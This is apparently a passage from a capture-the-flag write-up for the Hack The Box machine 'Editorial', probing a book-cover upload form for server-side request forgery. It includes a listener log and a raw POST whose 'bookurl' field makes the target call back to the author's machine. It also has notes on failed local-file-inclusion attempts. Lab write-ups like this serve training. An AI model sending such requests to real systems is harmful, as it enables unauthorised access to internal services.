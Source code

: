     http://10.10.14.194:8085


    Serving HTTP on 0.0.0.0 port 8085 (http://0.0.0.0:8085/) ...
    10.129.129.148 - - [16/Jun/2024 12:36:20] "GET / HTTP/1.1" 200 -
    10.129.129.148 - - [16/Jun/2024 12:36:30] code 404, message File not found
    10.129.129.148 - - [16/Jun/2024 12:36:30] "GET /testthis HTTP/1.1" 404 -
    ^C
    
    Keyboard interrupt received, exiting.


### Example call to do SSRF

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 310
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryscnORoWBhxDxvabA
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

------WebKitFormBoundaryscnORoWBhxDxvabA
Content-Disposition: form-data; name="bookurl"

http://10.10.14.194:8085
------WebKitFormBoundaryscnORoWBhxDxvabA
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryscnORoWBhxDxvabA--
```


### Observations
* Uploads can be re-downloaded, but they are deleted off the remote server after 10-30 seconds.
* No other endpoints browse to my local webserver. (I.e. no users browsing to validate content.)
* Files larger than a few KB get blocked on upload.

--- 

* On upload, if an invalid destination/error destination (server unavailable/file:///etc) it returns the same splash image.jpeg
* On upload, if a valid endpoint availalbe, temporarily serves the contents via /static/images/<generated_guid>

I spent a lot of time here testing for LFI weaknesses but ultimately got nowhere. As a test for validity I tested to see if it was possible to call the site from itself, perhaps by calling it from localhost some different routes would be available, but the calls continously timed out.

